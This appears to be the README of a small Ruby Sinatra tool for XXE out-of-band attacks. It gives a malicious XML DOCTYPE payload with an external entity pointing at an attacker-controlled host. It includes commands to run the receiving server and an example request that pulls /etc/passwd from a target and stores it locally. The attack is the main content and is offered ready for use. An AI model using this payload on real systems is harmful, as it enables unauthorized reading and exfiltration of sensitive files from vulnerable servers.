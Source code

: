 XXE Out of Band Server. 

This tiny Sinatra app will assist you in using the XXE Out of Band technique
described in [0].

Usage:

Start on default port of 443 (may need `sudo` on some systems)

`ruby xxeserve.rb`

Pass in port to start on

`ruby xxeserve.rb 8080`

Trigger the XML parser with the following XML:

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://YOURHOST:YOURPORT/xml?f=FULLPATH">
%remote;
%int;
%trick;]>
```

Where YOURHOST and YOURPORT needs to be set to the host/port this app
runs on in the URL you provide. FULLPATH needs to be set to the 
full absolute path of the to be read file (e.g. f=/etc/passwd)

e.g. http://8.8.8.8:443/xml?f=/etc/passwd

The according file will be send to the app and stored under ./files

Depending on the targeted parser it may not work with all files.

[0] (http://www.nosuchcon.org/talks/2013/D3_03_Alex&Timur_XML_Out_Of_Band.pdf)[http://www.nosuchcon.org/talks/2013/D3_03_Alex&Timur_XML_Out_Of_Band.pdf]

